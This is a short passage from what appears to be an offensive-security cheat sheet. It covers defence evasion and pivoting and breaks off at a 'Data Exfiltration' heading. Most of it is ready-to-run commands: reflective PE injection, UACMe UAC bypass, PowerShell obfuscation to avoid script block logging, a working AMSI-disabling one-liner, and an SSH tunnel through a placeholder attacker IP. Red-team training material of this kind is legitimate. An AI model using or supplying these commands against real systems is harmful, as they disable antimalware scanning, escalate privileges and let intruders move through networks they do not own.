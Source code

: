 - **Invoke-ReflectivePEInjection**:
    
    ```powershell
    Invoke-ReflectivePEInjection -PEBytes (Get-Content calc.exe -Raw) -ProcID <PID>
    ```
    

#### 8.4 UAC Bypass 

- **UACMe**:
    
    ```powershell
    .\uacme.exe
    ```
    

#### 8.5 Bypass PowerShell Script Block Logging 

- **Obfuscate PowerShell Scripts**:
    
    ```powershell
    Invoke-Obfuscation
    ```
    

#### 8.6 Bypass AMSI (Antimalware Scan Interface) 

- **AMSI Bypass in PowerShell**:
    
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static').SetValue($null, $true)
    ```
    

#### 8.7 Evade UAC (User Account Control) 

- **UACMe (Windows)**:
    
    ```powershell
    .\uacme.exe
    ```
    

#### 8.8 Bypass Network Access Controls 

- **Pivoting with SSH Tunnels**:
    
    ```bash
    ssh -L <local_port>:<target_ip>:<target_port> <attacker_ip>
    ```
    
- **VPN Pivoting**:
    
    ```bash
    openvpn --config <vpn_config.ovpn>
    ```
    

# 9. Data Exfiltration 

